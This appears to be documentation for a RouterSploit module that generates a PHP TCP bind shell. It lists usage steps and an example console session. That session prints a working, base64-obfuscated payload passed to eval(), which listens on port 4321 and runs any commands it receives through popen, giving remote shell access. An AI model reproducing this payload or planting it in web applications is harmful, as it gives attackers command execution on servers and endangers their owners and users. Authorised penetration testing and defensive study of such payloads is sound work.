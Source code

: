 ## Description

Module generates payload that creates interactive tcp bind shell by using php. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/php/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates php tcp bind shell payload

## Scenarios

```
rsf > use payloads/php/bind_tcp
rsf (PHP Bind TCP) > set rport 4321
[+] rport => 4321
rsf (PHP Bind TCP) > run
[*] Running module...
[*] Generating payload
eval(base64_decode('JHM9c29ja2V0X2NyZWF0ZShBRl9JTkVULFNPQ0tfU1RSRUFNLFNPTF9UQ1ApO3NvY2tldF9iaW5kKCRzLCIwLjAuMC4wIiw0MzIxKTtzb2NrZXRfbGlzdGVuKCRzLDEpOyRjbD1zb2NrZXRfYWNjZXB0KCRzKTt3aGlsZSgxKXtpZighc29ja2V0X3dyaXRlKCRjbCwiJCAiLDIpKWV4aXQ7JGluPXNvY2tldF9yZWFkKCRjbCwxMDApOyRjbWQ9cG9wZW4oIiRpbiIsInIiKTt3aGlsZSghZmVvZigkY21kKSl7JG09ZmdldGMoJGNtZCk7c29ja2V0X3dyaXRlKCRjbCwkbSxzdHJsZW4oJG0pKTt9fQ=='));
```
